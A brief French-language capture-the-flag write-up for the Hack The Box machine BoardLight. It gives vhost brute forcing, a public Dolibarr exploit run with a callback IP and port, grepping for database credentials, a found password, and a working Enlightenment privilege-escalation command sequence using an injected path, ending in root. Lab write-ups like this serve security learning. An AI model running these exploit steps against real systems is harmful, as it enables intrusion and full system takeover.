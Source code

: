 ```yaml
---
title: HTB Writeup: BoardLight
author: MiiLLIm
date: 01-06-2024
image:
  path: 
  height: 800
  width: 500
---
```





# HTB Writeup: BoardLight

[PWNED:Date](https://www.hackthebox.com/achievement/machine/1966580/603)

Brute force les VHOST 

```bash
gobuster vhost -u http://crm.board.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain
```

[`CVE-2023-30253`](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/tree/main)

```bash
python3 exploit.py http://crm.board.htb login password 10.10.14.138 1234
```

Rechercher une chaîne de caractère dans un répertoire 

```bash
grep -arin 'DB_USER\|DB_PASSWORD' |awk -F':' '{print $1}' | sort | uniq -c
```

Mot de passe de Larissa trouvé : FLAG serverfun2$2023!!

## Root Flag

Trouver les fichier avec une  SUID Permission 

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

 [`CVE-2022-37706`](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) 

```bash
mkdir /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"
echo "/bin/bash" > /tmp/exploit
chmod a+x /tmp/exploit
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

```

FLAG 

```bash
root@boardlight:/home/larissa# cat /root/root.txt
8d823a6c299dff3c34c362d20335f028
```
